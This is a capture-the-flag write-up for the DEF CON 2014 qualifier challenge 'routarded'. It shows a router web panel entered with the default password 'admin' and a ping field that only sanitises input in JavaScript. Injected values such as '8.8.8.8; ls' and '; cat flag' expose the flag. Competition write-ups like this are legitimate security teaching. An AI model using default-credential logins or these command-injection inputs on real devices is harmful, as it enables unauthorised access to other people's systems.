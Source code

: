 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out the credentials were the following:

> username=
> 
> password=admin

We used this to log in on the router. Amongst other things, there was a page to ping ip's and urls. When we attempted to add another command to that, the command was sanitized, but we saw the sanitizing happening! Great, seems like a javascript-only sanitizing!

> 8.8.8.8; ls
> 
> 8.8.8.8

We disabled javascript and tried again. Now we got the directory listing!

> bower_components
> 
> flag
> 
> requirements.txt
> 
> routarded.py
> 
> static
> 
> templates

The flag seemed like the right thing:

> ; cat flag

It returned the following:

> The flag is: l0l, can't believe they still do this shit

## Other write-ups

* (none yet)
